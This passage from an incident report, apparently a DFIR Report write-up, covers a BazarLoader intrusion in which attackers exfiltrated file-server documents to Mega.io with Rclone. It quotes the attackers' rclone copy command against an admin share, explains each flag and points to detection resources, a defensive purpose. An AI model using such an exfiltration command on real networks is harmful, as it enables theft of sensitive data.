 
The threat actors later exfiltrated sensitive documents from domain joined file servers using the Rclone application. The destination of the exfiltrated data was Mega.io.


[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/Rclone-exec-1.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/Rclone-exec-1.png)


The above command was copied and pasted by the threat actors to exfiltrate the data. Prior to the correct command, the threat actors accidentally pasted a command from a previous intrusion. That command contained a different victim organization in the arguments showing through out the intrusion continued sloppiness of the threat actor.



```
rclone.exe copy--max-age 3y "\\<redacted>\C$\Shares" remote: <redacted>\<redacted> --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P 

```

Breaking down the Rclone command line arguments:



```
- copy: Copy the source to the destination 
- --max-age: Only transfer files younger than <time> 
- \\<redacted>\C$\Shares": From source 
- remote: <redacted>\<redacted>: To destination folder 
- Bwlimit 2M: Bandwidth limit 
- -q: quiet 
- --ignore-existing: Skip all files that exist on destination 
- --auto-confirm: Do not request console confirmation 
- --multi-thread-streams: Max number of streams to use for multi-thread downloads 
- --transfers: Number of file transfers to run in parallel 
- -P: Show progress 
```

Reference:



```
https://rclone.org/flags/ 
https://rclone.org/commands/rclone\_copy/
```

A great reference for detecting Rclone data exfiltration is the article from nccgroup: [Detecting Rclone – An Effective Tool for Exfiltration](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/) – and from Red Canary – [Transferring Leverage in a Ransomware Attack](https://redcanary.com/blog/rclone-mega-extortion/).


### Impact


Multiple sensitive files were exfiltrated but before the threat actors could take any further action inside the network, they were evicted from the network. BazarLoader infections currently tend to materialize into [Conti ransomware](https://thedfirreport.com/2021/09/13/bazarloader-to-conti-ransomware-in-32-hours/), and many of the TTP’s of the infection mimic the instructions from the leaked [Conti manual](https://twitter.com/TheDFIRReport/status/1423361119926816776).
